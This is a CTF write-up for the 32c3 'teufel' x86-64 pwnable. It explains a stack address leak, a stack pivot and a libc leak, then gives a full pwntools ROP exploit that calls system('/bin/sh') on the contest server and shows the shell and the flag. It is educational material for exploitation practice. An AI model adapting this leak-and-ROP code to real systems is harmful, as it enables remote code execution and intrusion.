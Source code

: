 ```yaml
---
layout: post
title: 32c3 Teufel
comments: true
category: ctf
tags: ctf, 32c3, pwnable
---
```


This is a write-up of the teufel challenge from the 32c3 CTF


## The Challenge

This was a 64-bit x86 binary pwnable.
The way it worked was to allocate a new stack with a read-only guard page above it,
and then it entered a loop which called a function which was more or less equivalent to

{% highlight c %}
void read_read_puts(){
    long int n;
    if(read(0, &n, 8) <= 0) exit(0);
    if(read(0, &n, n) <= 0) exit(0);
    puts(&n);
}
{% endhighlight %}


## The Exploit

First of all, because the way the stack has been setup we can only put 24 bytes on the stack, namely `n`, `rbp`, and `rip`,
therefore we can only jump to one gadget, and we only control `rbp`.

However we are able to leak the address of the stack by only sending 9 bytes, and then let `puts` print it to us:
{% highlight python %}
from pwn import *

r = process("./teufel")

r.send(p64(9))
r.send("A"*9)

assert r.recvn(8) == "A"*8

stack = u64(r.recvline()[:-1].ljust(8,"\x00")) & ~0xfff
log.info("Stack is at 0x%x", stack)
{% endhighlight %}


{% highlight bash %}
$ python doit_teufel.py 
[+] Starting program './teufel': Done
[*] Stack is at 0x7fe6913aa000
[*] Stopped program './teufel'
{% endhighlight %}

Now that we know where the stack is, we found the gadget
{% highlight bash %}
loop:
4004d4: mov    rsp,rbp
4004d7: call   4004e6 <read_read_puts>
4004dc: jmp    4004d7 <loop>
{% endhighlight %}

Using this gadget we were able to pivot the stack, to get more space:

{% highlight python %}
mov_rsp_call = 0x4004d4
rop1 = flat([
    "A"*8,
    stack-0x100,
    mov_rsp_call
], word_size=64)

r.send(p64(len(rop1))+ rop1)
r.recvline()
{% endhighlight %}

Now attaching gdb at this point we can see whats on the stack:
{% highlight bash %}
gdb$ x/10xg $sp
0x7fec13046ee8: 0x0000000026250a61  0x00007fec13046f00
0x7fec13046ef8: 0x00000000004004dc  0x00000000568cdfd4
0x7fec13046f08: 0x000000002625d0da  0x0000000000000000
0x7fec13046f18: 0x0000000000000000  0x0000000000000000
0x7fec13046f28: 0x00007fec12e28740  0x00000000ffffffff
                ^ this is in libc
{% endhighlight %}

And we can leak this:

{% highlight python %}
r.send(p64(4*16))
r.send("A"*4*16)
assert r.recvn(4*16) == "A"*4*16
libc = u64(r.recvline()[:-1].ljust(8,"\x00")) - 0x3c5740
log.info("Libc is at 0x%x" % libc)  
{% endhighlight %}

{% highlight bash %}
$ python doit_teufel.py 
[+] Starting program './teufel': Done
[*] Stack is at 0x7fbb8f3b1000
[*] Libc is at 0x7fbb8edcd000
[*] Program './teufel' stopped with exit code -11
{% endhighlight %}

and then `teufel` crashes...
But becuase of the way the stack was allocated it is placed relative to libc,
so we can just restart the program, leak the address of the stack again, and then ROP in libc.

So this was the final exploit:

{% highlight python %}
from pwn import *

def new_process():
    #r = process("./teufel", env={"LD_LIBRARY_PATH": os.getcwd()})
    r = remote("136.243.194.41", 666)

    r.send(p64(9))
    r.send("A"*9)

    assert r.recvn(8) == "A"*8

    stack = u64(r.recvline()[:-1].ljust(8,"\x00")) & ~0xfff
    log.info("Stack is at 0x%x", stack)

    mov_rsp_call = 0x4004d4

    pivot_rop = flat([
        "A"*8,
        stack-0x100,
        mov_rsp_call
    ], word_size=64)

    r.send(p64(len(pivot_rop)) + pivot_rop)
    r.recvline()
    return r, stack

r, stack = new_process()
r.send(p64(4*16))
r.send("A"*4*16)

assert r.recvn(4*16) == "A"*4*16

libc = u64(r.recvline()[:-1].ljust(8,"\x00")) - 0x3c5740
log.info("Libc is at 0x%x" % libc)

diff = libc - stack

r, stack = new_process()
libc = stack + diff
log.info("Libc is at 0x%x" % libc)

pop_rdi = libc + 0x218a2
system = libc + 0x443d0

rop = flat([
    "/bin/sh\x00",
    0x0,
    pop_rdi,
    stack-0x100-0x18,
    system
], word_size=64)

r.send(p64(len(rop)) + rop)

r.clean()
r.interactive()
{% endhighlight %}

So we have a shell:
{% highlight bash %}
$ python doit_teufel.py 
[+] Opening connection to 136.243.194.41 on port 666: Done
[*] Stack is at 0x7f76345fc000
[*] Libc is at 0x7f7634012000
[+] Opening connection to 136.243.194.41 on port 666: Done
[*] Stack is at 0x7f7409b69000
[*] Libc is at 0x7f740957f000
[*] Switching to interactive mode
$ cat flag.txt
32C3_mov_pop_ret_repeat
{% endhighlight %}
